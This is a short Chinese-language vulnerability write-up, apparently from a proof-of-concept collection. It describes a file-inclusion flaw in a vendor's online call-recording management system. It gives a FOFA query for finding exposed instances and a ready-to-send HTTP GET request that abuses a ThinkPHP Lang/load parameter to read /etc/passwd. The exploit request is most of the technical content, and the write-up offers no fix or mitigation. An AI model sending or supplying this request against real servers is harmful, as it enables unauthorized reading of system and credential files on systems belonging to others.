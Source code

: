 # 申瓯通信设备有限公司在线录音管理系统index存在文件包含漏洞

# 一、漏洞简介
申瓯通信设备有限公司在线录音管理系统系统是一款全面的企业管理软件，涵盖多个领域，助力企业实现信息化管理和业务优化。申瓯通信设备有限公司在线录音管理系统index存在文件包含漏洞。

# 二、影响版本
+ 在线录音管理系统

# 三、资产测绘
+ fofa`title="在线录音管理系统"<font style="color:rgb(221, 17, 68);"></font>`

![1718298593944-67a12797-71e8-44ee-8755-020482502e3d.png](./img/S_cYMDLU99OSGVbJ/1718298593944-67a12797-71e8-44ee-8755-020482502e3d-126112.png)

# 四、漏洞复现
```java
GET /callcenter/public/index.php?s=index/\think\Lang/load&file=/etc/passwd HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36
Cache-Control: no-cache
Pragma: no-cache
Host: 
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
```

![1718714151400-95020a2d-915f-4d12-b219-daf747b492c3.png](./img/S_cYMDLU99OSGVbJ/1718714151400-95020a2d-915f-4d12-b219-daf747b492c3-939244.png)



> 更新: 2024-06-23 23:42:49  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/zdcq09yhyllgqpdn>